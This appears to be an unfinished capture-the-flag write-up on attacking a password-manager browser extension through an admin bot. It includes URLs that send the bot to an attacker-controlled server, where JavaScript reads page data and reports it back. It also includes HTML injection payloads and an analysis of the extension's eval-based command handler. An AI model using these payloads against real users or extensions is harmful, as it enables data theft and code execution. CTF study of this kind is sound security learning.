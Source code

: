 ```yaml
---
created: 2024-06-29T18:39
updated: 2024-07-07T23:06
---
```


**FAILED TO SOLVE**

I am allowed to make the bot visit any website, so...

## Analyze

The bot's window has some extra keys

```js
['event', 'fence', 'sharedStorage', 'fetchLater', 'onpageswap', 'onpagereveal', 'model']
```

The bot does the following things
- Goto https://pwnypass.c.hc.lc/login.php
- Fill up username password and submits
- Goto my URL

Sending it to `https://attack.octo-kumo.me/attack/uiuctf?extra=track({chrome:chrome})`

### Chrome
Turns out chrome is accessible.

Sending it to `https://attack.octo-kumo.me/attack/uiuctf?extra=track({a:analyze(chrome)})&no`

```json
{
    "loadTimes:function": {
        "requestTime": 1719704395.397,
        "startLoadTime": 1719704395.397,
        "commitLoadTime": 1719704395.543,
        "finishDocumentLoadTime": 0,
        "finishLoadTime": 0,
        "firstPaintTime": 0,
        "firstPaintAfterLoadTime": 0,
        "navigationType": "Other",
        "wasFetchedViaSpdy": true,
        "wasNpnNegotiated": true,
        "npnNegotiatedProtocol": "h3",
        "wasAlternateProtocolAvailable": false,
        "connectionInfo": "h3"
    },
    "csi:function": {
        "startE": 1719704395397,
        "onloadT": 0,
        "pageT": 155.841,
        "tran": 15
    },
    "app:object": {
        "isInstalled:boolean": false,
        "getDetails:function": null,
        "getIsInstalled:function": false,
        "runningState:function": "cannot_run",
        "InstallState:object": {
            "DISABLED:string": "disabled",
            "INSTALLED:string": "installed",
            "NOT_INSTALLED:string": "not_installed"
        },
        "RunningState:object": {
            "CANNOT_RUN:string": "cannot_run",
            "READY_TO_RUN:string": "ready_to_run",
            "RUNNING:string": "running"
        }
    }
}
```

Nothing interesting... Maybe add some delay?

Sending it to `https://attack.octo-kumo.me/attack/uiuctf?extra=setTimeout(()=>{track({a:genTree(document),b:allInputs()})},5000)&no`

Theres a DIV element added.

Send `https://attack.octo-kumo.me/attack/uiuctf?extra=setTimeout(()=>{track({a:document.body.innerHTML})},5000)&no`

```html
<div class="pwnypass-autofill-host" style="position: fixed !important; z-index: 9999 !important; inset: 0px !important; pointer-events: none !important;"></div>
```

hrmm...

### Background.js

```js
async function evaluate(_origin, data) {
    return eval(data);
}


const commands = {
    read,
    write,
    evaluate // DEPRECATED! Will be removed in next release.
}
```

Then I realized this.

So what's between me and that sweat `eval`? A custom token.

```js
if (await doHmac(token) !== hmac) return;                       // I need to obtain hmac from issue
let [ts, tab, origin, command] = token.split("|");              // payload be [time, tabid, mytab, 'evaluate','code','dummy']
if (parseInt(ts) + 60*5 < Math.floor(Date.now()/1000)) return;  // i have 5 minutes
if (sender.tab.id !== parseInt(tab)) return;                    // it must be from the same tab
if (await getOrigin(parseInt(tab)) !== origin) return;          // the tab must be of that origin
```

### Autofill.js

We can inject into that little popup via username and password.

```html
<meta http-equiv="refresh" content="0; url=https://webhook.site">
```

It works but is not useful.

I can also inject an iframe.

```html
<iframe src="./autofill.html?token=TOKEN&hmac=HMAC"></iframe>
```

It allows me to pass any token and hmac, but I still have to obtain their values first.

... Idk.

